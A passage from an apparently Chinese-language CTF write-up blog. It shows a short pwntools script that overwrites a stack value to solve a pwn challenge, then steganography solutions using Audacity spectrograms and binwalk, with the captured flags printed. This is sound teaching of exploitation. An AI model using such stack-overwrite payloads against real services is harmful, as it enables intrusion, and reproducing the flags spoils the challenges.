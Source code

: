 ```python
from pwn import *
sh = remote("10.129.2.227 ",10003)
junk = "a" * 8
leak = p64(2019)
payload = junk + leak + '\n'
sh.send(payload)
sh.interactive()
```

执行得到结果

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15540235677911.jpg)

`xgctf{Chan9e_th4_sTaCk!}`

----

----

## Misc

### 1.drop the beats

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538726849769.jpg)

这题一猜便知是音频隐写，先将下载下来的音频放入`Audacity`
然后我们查看一下他频谱图

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538728630248.jpg)

基本就可以看到flag就在这里

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538729217334.jpg)

然后略微调整一下高度和采样率

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538731267504.jpg)

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538730149252.jpg)

就基本能得到flag了
`xgctf{img_2_sound}`

----

### 2.拼东东

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538739611944.jpg)

首先无法解压
用`binwalk`分析了这个压缩包

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538742604658.jpg)
